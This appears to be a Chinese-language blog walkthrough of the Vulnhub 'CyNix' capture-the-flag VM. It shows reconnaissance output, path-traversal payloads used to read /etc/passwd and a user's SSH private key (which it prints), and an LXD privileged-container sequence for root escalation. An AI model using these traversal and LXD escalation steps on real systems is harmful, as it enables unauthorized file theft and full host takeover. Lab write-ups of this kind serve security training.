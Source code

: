 ```yaml
---
layout: post
title: "CyNix walkthrough"
date: 2021-07-07
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.115` |
| Kali          | `192.168.1.116` |
| CyNix         | `192.168.1.119` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.1.119`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.1.119
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 07:31 UTC
Nmap scan report for 192.168.1.119
Host is up (0.011s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6688/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:df:0d:37:b1:3c:86:0e:e6:6f:84:b9:28:11:ee:68 (RSA)
|   256 8f:3e:c0:08:03:13:e8:64:89:f6:f9:63:b3:88:99:2a (ECDSA)
|_  256 fb:e3:40:e6:91:0b:3c:bc:b7:0e:c7:bd:ef:a2:93:fc (ED25519)
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

结果显示靶机开启**80**端口和进行ssh服务的**6688**端口，那么下一步进行目录枚举

```shell
┌──(root💀kali)-[~]
└─# gobuster dir -u http://192.168.1.119/ -w /usr/share/wordlists/Passwords/Leaked_Databases/rockyou.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.119/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/Passwords/Leaked_Databases/rockyou.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/07 04:24:19 Starting gobuster in directory enumeration mode
===============================================================
Progress: 5100 / 14344392 (0.04%)[ERROR] 2021/07/07 04:24:29 [!] parse "http://192.168.1.119/!@#$%^": invalid URL escape "%^"
/lavalamp             (Status: 301) [Size: 317] [--> http://192.168.1.119/lavalamp/]
Progress: 19414 / 14344392 (0.14%)
...
```

在*gobuster*工具扫描结果中显示存在*/lavalamp*目录，并且在Chrome Devtools工具中查看源码时发现在*/lavalamp/skin/default.css*样式表中的注释发现可疑内容：

```css
/*
#1 = 85b0be
#2 = 95cbdd
*/
```

此外在*/lavalamp/contactform/contactform.js*文件中发现HTML是将表格内容提交到*/lavalamp/canyoubypassme.php*中。对该页面进行代码审计，修改*table*样式中*opacity*的属性值为 *1.0;*，这样就可以在页面中看到一个提交表格。

![1]({{ '/cynix/1.png' | prepend: site.url }})

虽然提示说输入的内容应为数值，不过可以想到这里是需要我们进行命令注入。经过测试，当输入的内容是URI时会返回源码，猜测执行的命令类似于*curl_exec()*函数；当输入的内容是路径时返回*You are not allowed to do that.*，在多次尝试后发送*gg/../../etc/passwd*时会返回其内容。

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
ford:x:1000:1000:ford,,,:/home/ford:/bin/bash
lxd:x:106:65534::/var/lib/lxd/:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
```

在其中发现靶机存在一个用户名为*ford*,使用该用户名登录到ssh服务时返回**Permission denied (publickey)**，因此该用户需要私钥进行登录。

```shell
┌──(root💀kali)-[~/CTF]
└─# ssh ford@192.168.1.119 -p 6688
 _____  _    _  ____  ______ _   _ _______   __
|  __ \| |  | |/ __ \|  ____| \ | |_   _\ \ / /
| |__) | |__| | |  | | |__  |  \| | | |  \ V /
|  ___/|  __  | |  | |  __| | . ` | | |   > <
| |    | |  | | |__| | |____| |\  |_| |_ / . \
|_|    |_|  |_|\____/|______|_| \_|_____/_/ \_\


ford@192.168.1.119: Permission denied (publickey).
```

### 获取私钥登录ssh

传递参数*file*的值为*gg/../../home/ford/.ssh/id_rsa*，得到该用户的私钥：

```shell
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAk1VUtcYuZmM1Zmm4yNpguzzeocGpMVYC540yT90QqaD2Bsal
zYqvHKEh++bOL6QTSr0NjU9ifT/lBIVSIA0TpjUTkpdIW045H+NlgMhN0q/x6Yy2
LofuB4LQqRzr6cP0paoOYNq1KYG3QF1ouGa4k1i0td4DepBxcu4JBMOm20E7BurG
zo41f/YWjC5DurNjIchzl4GyBClMGSXWbIbr6sYwVx2OKyiPLFLYusrNqwJNQvxz
Mf5yolEYI8WOXJzCfiPQ5VG8KXBH3FHu+DhFNgrJQjgowD15ZMQ1qpO/2FMhewR6
gcDs7rCLUUXc9/7uJ7e3zHlUyDgxakYohn3YiQIDAQABAoIBAE/cfSJa3mPZeuSc
gfE9jhlwES2VD+USPljNDGyF47ZO7Y0WuGEFv43BOe6VWUYxpdNpTqM+WKCTtcwR
iEafT/tT4dwf7LSxXf2PAUIhUS3W+UYjY80tGTUxD3Hbn3UDJuV1nH2bj3+ENJTL
DSyHYZ1dA/dg9HnHOfeWV4UhmJxXmOAOKgU9Z73sPn4bYy4B3jnyqWn392MsQftr
69ZYauTjku9awpuR5MAXMJ9bApk9Q7LZYwwGaSZw8ceMEUj7hkZBtP9W9cilCOdl
rFXnkc8CvUpLh+hX6E/JOCGsUvdPuVLWKd2bgdK099GrRaenS8SlN0AUTfyNiqg4
VE7V8AECgYEAwoGVE+Z8Tn+VD5tzQ0twK+cP2TSETkiTduYxU3rLqF8uUAc3Ye/9
TLyfyIEvU7e+hoKltdNXHZbtGrfjVbz6gGuGehIgckHPsZCAQLPwwEqp0Jzz9eSw
qXI0uM7n2vSdEWfCAcJBc559JKZ5uwd0XwTPNhiUqe6DUDUOZ7kI34ECgYEAwenM
gMEaFOzr/gQsmBNyDj2gR2SuOYnOWfjUO3DDleP7yXYNTcRuy6ke1kvMhf9fWw7h
dq3ieU0KSHrNUQ9igFK5C8FvsB+HUyEjfVpNhFppNpWUUWKDRCypbmypLg0r+9I7
myrdBFoYv30WKVsEHus1ye4nJzKjCtkgmjYMfQkCgYA0hctcyVNt2xPEWCTC2j8b
C9UCwSStAvoXFEfjk/gkqjcWUyyIXMbYjuLSwNen0qk3J1ZaCAyxJ8009s0DnPlD
7kUs93IdiFnuR+fqEO0E7+R1ObzC/JMb3oQQF4cSYBV92rfPw8Xq07RVTkL21yd8
dQ8DO5YBYS/CW+Fc7uFPgQKBgHWAVosud792UQn7PYppPhOjBBw+xdPXzVJ3lSLv
kZSiMVBCWI1nGjwOnsD77VLFC+MBgV2IwFMAe9qvjvoveGCJv9d/v03ZzQZybi7n
KVGp91c8DEPEjgYhigl/joR5Ns3A9p1vu72HWret9F/a5wRVQqK5zL/Tzzgjmb3Y
QnkBAoGAVosEGOE7GzBMefGHjQGMNKfumeJ01+Av6siAI6gmXWAYBaU618XhFEh1
+QNoLgWvSXoBuN+pMkxnRCfMTNbD1wSk46tW3sWHkZdV31gKceOifNzMVw53bJHP
/kto0eGJ/vgM0g9eyqmcpPTVqf7EwkJdo0LngOprNyTk+54ZiUg=
-----END RSA PRIVATE KEY-----
```

使用私钥进行登录：

```shell
┌──(root💀kali)-[~]
└─# chmod 600 ford_rsa
┌──(root💀kali)-[~]
└─# ll ford_rsa
-rw------- 1 root root 1676 Jul  7 05:14 ford_rsa
┌──(root💀kali)-[~]
└─# ssh ford@192.168.1.119 -p 6688 -i ford_rsa
load pubkey "ford_rsa": invalid format
 _____  _    _  ____  ______ _   _ _______   __
|  __ \| |  | |/ __ \|  ____| \ | |_   _\ \ / /
| |__) | |__| | |  | | |__  |  \| | | |  \ V /
|  ___/|  __  | |  | |  __| | . ` | | |   > <
| |    | |  | | |__| | |____| |\  |_| |_ / . \
|_|    |_|  |_|\____/|______|_| \_|_____/_/ \_\


Last login: Fri Nov  8 16:46:44 2019 from 10.80.3.41
ford@blume:~$
```

在该目录下得到第一个flag：

```shell
ford@blume:~$ ls
user.txt
ford@blume:~$ cat user.txt
02d6267ed96e6b615b031dafe9607151
```

### 提权

在通过`id`查看用户*ford*权限时，发现该用户所属组中有*lxd*，因此可通过[这篇文章](https://www.hackingarticles.in/lxd-privilege-escalation/)进行LXD提权。

```shell
ford@blume:~$ id
uid=1000(ford) gid=1000(ford) groups=1000(ford),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),113(lxd)
```

操作步骤有：

```shell
lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

最后就可以得到*root*下的最后一个flag。

### 总结

1. ssh私钥登录：`ssh ford@192.168.1.119 -p 6688 -i ford.rsa`
2. [lxd提权](https://www.hackingarticles.in/lxd-privilege-escalation/)

